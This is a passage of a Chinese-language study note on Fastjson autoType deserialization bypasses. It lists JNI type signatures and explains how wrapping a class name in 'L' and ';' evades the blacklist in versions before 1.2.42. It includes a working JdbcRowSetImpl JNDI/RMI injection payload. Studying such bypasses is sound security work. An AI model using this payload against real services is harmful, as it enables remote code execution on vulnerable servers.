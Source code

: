 ![image-20220610162925861](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220610162925861.png)

**JNI常用的数据类型及对应字符**

| Java 类型   | 符号                                                         |
| ----------- | ------------------------------------------------------------ |
| Boolean     | Z                                                            |
| Byte        | B                                                            |
| Char        | C                                                            |
| Short       | S                                                            |
| Int         | I                                                            |
| Long        | J                                                            |
| Float       | F                                                            |
| Double      | D                                                            |
| Void        | V                                                            |
| objects对象 | 以"`L`“开头，以”`;`“结尾，中间是用”`/`" 隔开的包及类名。比如：`Ljava/lang/String;`如果是嵌套类，则用`$`来表示嵌套。例如 “`(Ljava/lang/String;Landroid/os/FileUtils$FileStatus;)Z`” |

##### 总结

综合以上条件,需要开启autoTypeSupport并且将类名进行简单改造,给类名添加`L`和`;`包裹

```java
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        JSON.parseObject("{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"dataSourceName\":\"rmi://127.0.0.1:1099/hello\",\"autoCommit\":true}");

```

## <=1.2.42

1.2.42版本将黑名单进行了hash处理

<img src="https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220610190544304.png" alt="image-20220610190544304" style="zoom:80%;" />

在checkAutoType函数中

先进行一次判断并截取掉了L和;

![image-20220610223234128](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220610223234128.png)

接下来的代码就是之前检查黑白名单的hash版

![image-20220610223337297](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220610223337297.png)

到loadClass这里还是递归调用

![image-20220610223441375](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220610223441375.png)
